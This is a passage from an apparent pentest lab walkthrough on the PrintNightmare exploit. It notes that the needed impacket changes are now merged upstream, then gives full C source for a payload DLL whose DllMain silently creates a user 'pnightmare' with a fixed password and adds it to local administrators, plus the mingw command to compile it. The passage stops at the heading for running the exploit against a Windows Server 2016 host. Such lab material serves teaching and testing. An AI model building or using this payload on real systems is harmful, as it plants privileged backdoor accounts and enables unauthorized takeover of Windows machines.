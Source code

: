 >[!NOTE] 
>This is not needed any longer as this is already integrated into impacket

### Prepare impacket

- To exploit with cube0x0 script you no longer need the modified impacket version as the modifications as been merged in the main project:
    - [https://github.com/SecureAuthCorp/impacket/pull/1114](https://github.com/SecureAuthCorp/impacket/pull/1114)
    - [https://github.com/SecureAuthCorp/impacket/pull/1109](https://github.com/SecureAuthCorp/impacket/pull/1109)

### Prepare the dll

- Let’s prepare the exploitation dll
- We will create a user and add it as local administrator
- Create the file nightmare.c:
```C
#include <windows.h> 
int RunCMD()
{
    system("net users pnightmare Passw0rd123. /add");
    system("net localgroup administrators pnightmare /add");
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        RunCMD();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```


- Compile it:
```
x86_64-w64-mingw32-gcc -shared -o nightmare.dll nightmare.c
```


### Exploit on old and vulnerable windows server 2016 (meereen)
